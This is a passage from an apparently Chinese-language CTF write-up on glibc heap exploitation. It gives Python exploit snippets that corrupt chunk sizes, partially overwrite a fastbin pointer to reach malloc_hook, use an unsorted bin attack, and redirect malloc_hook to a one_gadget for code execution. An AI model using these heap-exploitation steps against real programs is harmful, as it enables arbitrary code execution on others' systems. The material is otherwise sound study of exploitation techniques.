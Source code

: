    ```py
   add(0x18,0)
   add(0x58,1)
   add(0x68,2)
   
   # malloc malloc_hook
   edit(0,p64(0)*3+b"\x91") #修改size
   edit(2,p64(0)*5 + p64(0x11) + p64(0) + p64(1))	#fake_chunk
   free(1)
   free(2)	#安排进入fastbin
   add(0x58,3)	#推动main_arena_88地址覆盖掉fastbin的fd指针，这里fastbin中chunk的size会被修改
   edit(3,p64(0)*11 + b"\x71") #改回fastbin的size，后面申请chunk使会检查size
   edit(2,b"\xed\x4a")
   add(0x68,4)
   add(0x68,5)
   
   edit(5,b"AAAAAAAA")
   ```

   推动地址之前的堆分布：

   ![image-20240819171346343](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191713463.png)

   推动地址之后的堆分布，可以看到fd指针被成功覆盖掉：

   ![image-20240819171641883](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191716009.png)

   局部修改fd指针，使之指向**malloc_hook-0x23** ，后面就能直接申请到包含malloc_hook的chunk了：

   ![image-20240819172040371](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191720564.png)

2. 构造unsorted bin attack，向malloc_hook处写入main_arena地址：

   ```py
   # unsorted bin attack
   free(4)
   edit(4,p64(0))
   add(0x68,10)
   edit(2,p64(0) + b"\x00")
   add(0x68,1)
   ```

   ![image-20240819172433714](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191724895.png)

   修改后成功指向malloc_hook：

   ![image-20240819172510092](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191725226.png)

   触发unsorted bin attack 向malloc_hook上写入main_arena_88地址：

   ![image-20240819172618749](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191726817.png)

3. 局部修改malloc_hook上的地址，使之能指向onegadget:

   ```py
   # 填入 one_gadget
   one_gadget = [0x4527a,0xf03a4,0xf1247]
   edit(5,p64(0)*2 + b"\x00"*3 + b"\xa4\x03\x8f")
   
   ```

